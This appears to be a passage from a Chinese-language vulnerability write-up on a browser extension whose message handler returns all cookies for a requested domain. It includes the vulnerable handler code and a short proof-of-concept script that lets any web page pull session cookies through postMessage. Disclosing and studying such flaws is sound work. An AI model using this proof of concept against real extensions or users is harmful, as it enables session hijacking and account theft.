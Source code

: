 此外，该扩展程序还具有访问多个其他来源的 cookie 的权限：  
```
"permissions": [
  "cookies",
  "webRequest",
  "webRequestBlocking",
  "https://website-a.com/*",
  "https://website-b.com/*",
  "https://*.website-c.com/*"
]
```  
  
利用相同的嵌入页面通信模式，后台脚本接受以下消息类型，该消息类型仅返回请求域的所有 cookie：  
```
chrome.runtime.onMessage.addListener(function(a, b, c) {
  switch (a.Action) {
    // ...
    case "GETCOOKIE":
        GetCookie(a, b.tab.id);
        break;
    // ...

function GetCookie(a, b) {
    chrome.cookies.getAll({
        domain: a.URL
    }, function(c) {
        var d = [];
        $(c).each(function() {
            d.push({
                name: this.name,
                value: this.value,
                domain: this.domain,
                secure: this.secure,
                path: this.path
            })
        });
        a.Data = JSON.stringify(d);
        SendMessage("ONRESULT", a, b)
    })
}
```  
  
因此，任何域中包含以下脚本的任何网页都可以触发扩展程序将白名单域中的会话 cookie 返回到页面：  
```
function runPoc() {           
    const payload = {
        Action: "GETCOOKIE",
        background: true,
        URL: "website-a.com"
    }
    window.postMessage(payload, '*');          
}
setTimeout(runPoc, 1000)
```  
  